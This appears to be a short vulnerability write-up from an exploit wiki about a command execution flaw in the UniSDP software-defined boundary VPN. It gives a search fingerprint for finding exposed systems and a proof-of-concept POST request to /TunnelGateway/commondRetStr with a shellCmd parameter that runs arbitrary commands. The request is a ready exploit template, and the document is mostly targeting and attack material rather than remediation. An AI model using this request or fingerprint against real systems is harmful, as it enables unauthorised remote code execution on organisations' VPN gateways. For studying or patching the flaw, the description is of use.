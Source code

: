 # UniSDP software-defined boundary system commonRetSt command execution vulnerability

## Vulnerability Description

Liansoft Security UniSDP software-defined boundary system is a next-generation VPN based on zero trust. In the 2021.04.28 version of this system, there is a security vulnerability in a TunnelGateway interface. The vulnerability allows an attacker to send a specially crafted request to the server and execute remote commands.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UniSDP Software-defined Boundary System</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="UniSSOView"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658977938174-b661802b-b5c7-434b-a5e7-6f51afb02db1-20230311204818783.png)

Verify POC

```php
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658978044203-53489913-e30b-474a-accf-09c74a9189b7.png)